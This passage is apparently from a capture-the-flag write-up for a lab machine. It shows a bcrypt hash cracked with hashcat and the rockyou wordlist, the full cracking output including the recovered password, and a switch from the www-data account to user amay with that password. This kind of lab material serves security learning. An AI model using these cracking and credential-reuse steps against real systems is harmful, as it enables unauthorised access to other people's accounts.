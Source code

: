 ```shell-session
            "2024\/08\/14 12:39:47": "127.0.0.1"
        },
<SNIP>
```

Let's try to crack it with hashcat.
```shell-session
# hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

<SNIP>

$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM...DnXm4q
Time.Started.....: Wed Aug 14 15:53:30 2024 (1 min, 17 secs)
Time.Estimated...: Wed Aug 14 15:54:47 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       40 H/s (5.59ms) @ Accel:2 Loops:64 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3060/14344385 (0.02%)
Rejected.........: 0/3060 (0.00%)
Restore.Point....: 3056/14344385 (0.02%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:960-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 753159 -> memories
Hardware.Mon.#1..: Util: 30%

Started: Wed Aug 14 15:52:40 2024
Stopped: Wed Aug 14 15:54:49 2024
```

We gat the password `mychemicalromance`.

Successfully logged in as amay.
```shell-session
www-data@sea:/home/amay$ su amay
Password: 
amay@sea:~$
```
